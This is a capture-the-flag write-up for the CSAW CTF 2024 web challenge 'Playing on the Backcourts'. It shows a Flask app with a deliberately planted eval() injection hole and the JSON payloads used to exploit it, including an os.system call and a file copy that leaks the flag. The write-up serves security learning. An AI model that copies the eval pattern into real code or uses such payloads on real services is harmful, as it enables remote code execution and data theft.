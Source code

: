 ```yaml
---
name: Playing on the Backcourts (2024)
event: CSAW CTF 2024
category: Web
description: Writeup for Playing on the Backcourts (Web) - CSAW CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Playing on the Backcourts

## Description

> yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!

## Source Code


```python
from flask import Flask, render_template, request, session, jsonify, send_file
from hashlib import sha256
from os import path as path

app = Flask(__name__)
app.secret_key = 'safe'

leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{i_look_different_in_prod}'

@app.route('/')
def index() -> str:
    cookie = request.cookies.get('session')

    if cookie:
        token = cookie.encode('utf-8')
        tokenHash = sha256(token).hexdigest()

        if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
            try:
                with open(leaderboard_path, 'r') as file:
                    lbdata = file.read()

            except FileNotFoundError:
                lbdata = 'Leaderboard file not found'

            except Exception as e:
                lbdata = f'Error: {str(e)}'

            return '<br>'.join(lbdata.split('\n'))

    open('logs.txt', mode='w').close()
    return render_template("index.html")

@app.route('/report')
def report() -> str:
    return render_template("report.html")

@app.route('/clear_logs', methods=['POST'])
def clear_logs() -> Flask.response_class:
    try:
        open('logs.txt', 'w').close()

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/submit_logs', methods=['POST'])
def submit_logs() -> Flask.response_class:
    try:
        logs = request.json

        with open('logs.txt', 'a') as logFile:
            for log in logs:
                logFile.write(f"{log['player']} pressed {log['key']}\n")

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_logs', methods=['GET'])
def get_logs() -> Flask.response_class:
    try:
        if path.exists('logs.txt'):
            return send_file('logs.txt', as_attachment=False)
        else:
            return jsonify(status='error', reason='Log file not found'), 404

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_moves', methods=['POST'])
def eval_moves() -> Flask.response_class:
    try:
        data = request.json
        reported_player = data['playerName']
        moves = ''
        if path.exists('logs.txt'):
            with open('logs.txt', 'r') as file:
                lines = file.readlines()

                for line in lines:
                    if line.strip():
                        player, key = line.split(' pressed ')
                        if player.strip() == reported_player:
                            moves += key.strip()

        return jsonify(status='success', result=moves)

    except Exception as e:
        return jsonify(status='error', reason=str(e))

@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']

        return jsonify(status='success', result=deep_eval(expr))

    except Exception as e:
        return jsonify(status='error', reason=str(e))

def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr

    return deep_eval(nexpr)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```


## Solution

The website features a two-player ping pong game. Aside from the player movements, there's some log storing/reading functionality, a `/report` endpoint, and a `get_eval` endpoint.

The last one sounds very interesting! It performs a `deep_eval` on our expression (recursive), so first, we can try an easy win: print the `safetytime` variable.


```json
{ "expr": "safetytime" }
```


We get a flag!


```json
{ "result": "csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}", "status": "success" }
```


Clearly, not the real flag though. We can try system commands, e.g.


```json
{ "expr": "__import__('os').system('ls')" }
```


They seem to succeed but there's no output.


```json
{ "result": 0, "status": "success" }
```


I tried `curl` but didn't get a hit.

Next, I was thinking the flag must be in `leaderboard.txt`, which we would get with the correct hash.


```python
token = cookie.encode('utf-8')
tokenHash = sha256(token).hexdigest()

if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
	try:
		with open(leaderboard_path, 'r') as file:
			lbdata = file.read()
```


I tried to crack it online but no luck.

Finally, I used the `eval` to copy `logs.txt` to `leaderboard.txt` and then called `/get_logs`.


```
1.kainzow
2.wozniak
3.beastmaster64
4.m4y4
5.smallfoot
6.BBLDrizzy
7.¯\_(ツ)_/¯
8.dvorak
9.csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}
10.funGuyQiu
11.bidenJoetum pressed k
tum pressed k
tum pressed k
tum pressed k
hum pressed w
hum pressed w
hum pressed w
hum pressed w
hum pressed w
hum pressed s
hum pressed s
```


Flag: `csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}`
